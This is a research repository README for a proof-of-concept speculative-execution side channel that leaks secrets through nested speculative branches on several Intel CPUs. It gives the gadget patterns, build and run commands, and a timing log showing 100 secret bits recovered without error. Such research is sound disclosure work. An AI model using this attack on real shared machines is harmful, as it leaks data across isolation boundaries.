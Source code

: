 # Leakage of Sensitive Information through Nested Speculative Branches

This repository contains proof-of-concept of information leakage by exploiting branch instruction executions in speculative path. 

## Tested systems

- Intel(R) Xeon(R) Gold 6242 (Family: Cascade Lake, Microcode: 0x5002f01)
- Intel(R) Core(TM) i5-9500 (Family: Coffee Lake, Microcode: 0xd6) 
- Intel(R) Core(TM) i7-6700 (Family: Skylake, Microcode: 0xdc)

## Environment

- **Operating System:** Ubuntu 18.04.5 LTS
- **Kernel:** 5.4.0-42-generic
- **GCC:** 7.5.0

## Variants

This repository contains two variant of the exploitation using two different type of code gadgets.

#### Variant 1: **poc_v1**

Nested speculation followed by <code>if</code> branch
```c
if (x < array_size) {
    if (array[x]) {
        <some_function>
    }
}
```

#### Variant 2: **poc_v2**

Nested speculation followed by <code>for</code> loop
```c
for (int i = x; i < array_size; i++) {
    if (array[i]) {
        <some_function>
    }
    <some_additional_functions>
}
```


## Building

This project requires GNU Make, GCC and nasm to build successfully. On Ubuntu, you can install them using:

```bash
sudo apt-get install build-essential
sudo apt-get install nasm
```

Steps to reproduce the vulnerability:

```bash
# Clone the repository
git clone https://github.com/fanyao/branchspec

# cd into the source directory
cd branchspec

# build the binaries
make all

# run the binaries using taskset to pin into one core
taskset 0x02 ./poc_v1
```

Note: Change the <code>THRESHOLD</code> in line 36 of the source file (i.e., poc_v1/poc_v2) according to your system

## Example output

This output is obtained on Intel(R) Core(TM) i5-9500 for <code>poc_v1</code> by running 

```bash
taskset 0x04 ./poc_v1
```

```
Transmitting secret...
Secret value, secret[0]: 0; Inferred: 0; Latency: 145
Secret value, secret[1]: 1; Inferred: 1; Latency: 129
Secret value, secret[2]: 0; Inferred: 0; Latency: 149
Secret value, secret[3]: 0; Inferred: 0; Latency: 145
Secret value, secret[4]: 1; Inferred: 1; Latency: 125
Secret value, secret[5]: 0; Inferred: 0; Latency: 145
Secret value, secret[6]: 1; Inferred: 1; Latency: 131
Secret value, secret[7]: 1; Inferred: 1; Latency: 129
Secret value, secret[8]: 1; Inferred: 1; Latency: 125
Secret value, secret[9]: 0; Inferred: 0; Latency: 148
Secret value, secret[10]: 1; Inferred: 1; Latency: 127
Secret value, secret[11]: 1; Inferred: 1; Latency: 129
Secret value, secret[12]: 0; Inferred: 0; Latency: 147
Secret value, secret[13]: 1; Inferred: 1; Latency: 127
Secret value, secret[14]: 1; Inferred: 1; Latency: 127
Secret value, secret[15]: 0; Inferred: 0; Latency: 147
Secret value, secret[16]: 1; Inferred: 1; Latency: 127
Secret value, secret[17]: 0; Inferred: 0; Latency: 147
Secret value, secret[18]: 0; Inferred: 0; Latency: 147
Secret value, secret[19]: 1; Inferred: 1; Latency: 127
Secret value, secret[20]: 0; Inferred: 0; Latency: 145
Secret value, secret[21]: 0; Inferred: 0; Latency: 147
Secret value, secret[22]: 0; Inferred: 0; Latency: 147
Secret value, secret[23]: 1; Inferred: 1; Latency: 129
Secret value, secret[24]: 1; Inferred: 1; Latency: 127
Secret value, secret[25]: 1; Inferred: 1; Latency: 127
Secret value, secret[26]: 1; Inferred: 1; Latency: 127
Secret value, secret[27]: 1; Inferred: 1; Latency: 127
Secret value, secret[28]: 1; Inferred: 1; Latency: 129
Secret value, secret[29]: 1; Inferred: 1; Latency: 129
Secret value, secret[30]: 1; Inferred: 1; Latency: 125
Secret value, secret[31]: 1; Inferred: 1; Latency: 129
Secret value, secret[32]: 0; Inferred: 0; Latency: 147
Secret value, secret[33]: 1; Inferred: 1; Latency: 127
Secret value, secret[34]: 0; Inferred: 0; Latency: 143
Secret value, secret[35]: 1; Inferred: 1; Latency: 129
Secret value, secret[36]: 0; Inferred: 0; Latency: 143
Secret value, secret[37]: 1; Inferred: 1; Latency: 131
Secret value, secret[38]: 1; Inferred: 1; Latency: 125
Secret value, secret[39]: 1; Inferred: 1; Latency: 127
Secret value, secret[40]: 0; Inferred: 0; Latency: 147
Secret value, secret[41]: 1; Inferred: 1; Latency: 127
Secret value, secret[42]: 0; Inferred: 0; Latency: 147
Secret value, secret[43]: 1; Inferred: 1; Latency: 129
Secret value, secret[44]: 0; Inferred: 0; Latency: 149
Secret value, secret[45]: 1; Inferred: 1; Latency: 125
Secret value, secret[46]: 0; Inferred: 0; Latency: 145
Secret value, secret[47]: 1; Inferred: 1; Latency: 127
Secret value, secret[48]: 0; Inferred: 0; Latency: 145
Secret value, secret[49]: 1; Inferred: 1; Latency: 127
Secret value, secret[50]: 0; Inferred: 0; Latency: 145
Secret value, secret[51]: 0; Inferred: 0; Latency: 147
Secret value, secret[52]: 1; Inferred: 1; Latency: 125
Secret value, secret[53]: 1; Inferred: 1; Latency: 129
Secret value, secret[54]: 0; Inferred: 0; Latency: 147
Secret value, secret[55]: 1; Inferred: 1; Latency: 127
Secret value, secret[56]: 1; Inferred: 1; Latency: 125
Secret value, secret[57]: 0; Inferred: 0; Latency: 147
Secret value, secret[58]: 1; Inferred: 1; Latency: 129
Secret value, secret[59]: 0; Inferred: 0; Latency: 147
Secret value, secret[60]: 1; Inferred: 1; Latency: 125
Secret value, secret[61]: 0; Inferred: 0; Latency: 148
Secret value, secret[62]: 0; Inferred: 0; Latency: 143
Secret value, secret[63]: 1; Inferred: 1; Latency: 127
Secret value, secret[64]: 0; Inferred: 0; Latency: 147
Secret value, secret[65]: 1; Inferred: 1; Latency: 129
Secret value, secret[66]: 0; Inferred: 0; Latency: 148
Secret value, secret[67]: 1; Inferred: 1; Latency: 125
Secret value, secret[68]: 1; Inferred: 1; Latency: 127
Secret value, secret[69]: 0; Inferred: 0; Latency: 147
Secret value, secret[70]: 1; Inferred: 1; Latency: 129
Secret value, secret[71]: 0; Inferred: 0; Latency: 149
Secret value, secret[72]: 0; Inferred: 0; Latency: 146
Secret value, secret[73]: 1; Inferred: 1; Latency: 127
Secret value, secret[74]: 1; Inferred: 1; Latency: 125
Secret value, secret[75]: 0; Inferred: 0; Latency: 146
Secret value, secret[76]: 1; Inferred: 1; Latency: 129
Secret value, secret[77]: 0; Inferred: 0; Latency: 146
Secret value, secret[78]: 1; Inferred: 1; Latency: 129
Secret value, secret[79]: 0; Inferred: 0; Latency: 146
Secret value, secret[80]: 0; Inferred: 0; Latency: 149
Secret value, secret[81]: 0; Inferred: 0; Latency: 147
Secret value, secret[82]: 0; Inferred: 0; Latency: 147
Secret value, secret[83]: 0; Inferred: 0; Latency: 147
Secret value, secret[84]: 1; Inferred: 1; Latency: 131
Secret value, secret[85]: 0; Inferred: 0; Latency: 146
Secret value, secret[86]: 1; Inferred: 1; Latency: 129
Secret value, secret[87]: 0; Inferred: 0; Latency: 147
Secret value, secret[88]: 0; Inferred: 0; Latency: 147
Secret value, secret[89]: 0; Inferred: 0; Latency: 147
Secret value, secret[90]: 0; Inferred: 0; Latency: 145
Secret value, secret[91]: 1; Inferred: 1; Latency: 129
Secret value, secret[92]: 1; Inferred: 1; Latency: 127
Secret value, secret[93]: 1; Inferred: 1; Latency: 127
Secret value, secret[94]: 0; Inferred: 0; Latency: 147
Secret value, secret[95]: 0; Inferred: 0; Latency: 147
Secret value, secret[96]: 0; Inferred: 0; Latency: 147
Secret value, secret[97]: 1; Inferred: 1; Latency: 127
Secret value, secret[98]: 1; Inferred: 1; Latency: 127
Secret value, secret[99]: 1; Inferred: 1; Latency: 129
Total bit sent: 100, Total Error: 0, Threshold: 138
```